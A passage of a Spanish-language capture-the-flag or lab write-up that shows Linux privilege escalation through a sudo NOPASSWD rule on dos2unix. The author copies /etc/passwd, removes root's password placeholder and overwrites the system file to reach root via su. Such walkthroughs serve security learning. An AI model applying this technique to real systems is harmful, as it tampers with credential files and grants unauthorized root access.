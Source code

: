 ahora chequeo si puedo ejecutar algun binario como root que es lo que me falta, ser root

```
sudo -l
Matching Defaults entries for pepe on 9c13e159e6ea:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User pepe may run the following commands on 9c13e159e6ea:
    (ALL : ALL) NOPASSWD: /usr/bin/dos2unix
```

puedo ejecutar el binario /usr/bin/dos2unix como root, la escalada es simple, primero voy a copiar el contenido del archivo /etc/passwd en un archivo en mi directorio

```
pepe@9c13e159e6ea:/home/pepe$ cat /etc/passwd > escalada
pepe@9c13e159e6ea:/home/pepe$ cat escalada
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
maci:x:1000:1000::/home/maci:/bin/bash
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
darksblack:x:1001:1001:,,,:/home/darksblack:/bin/bash
pepe:x:1002:1002:,,,:/home/pepe:/bin/bash
Debian-exim:x:101:104::/var/spool/exim4:/usr/sbin/nologin
pepe@9c13e159e6ea:/home/pepe$ 

```
ahora edito el archivo 'escalada' eliminando solo la 'x' que contiene la linea de root quedando: `root::0:0:root:/root:/bin/bash`
por lo que ahora ya teniendo modificado el archivo 'escalada' procedo usar el binario '/usr/bin/dos2unix' como root para modificar el archivo '/etc/passwd'

```
sudo /usr/bin/dos2unix -f -n escalada /etc/passwd
dos2unix: converting file escalada to file /etc/passwd in Unix format...
su root
```
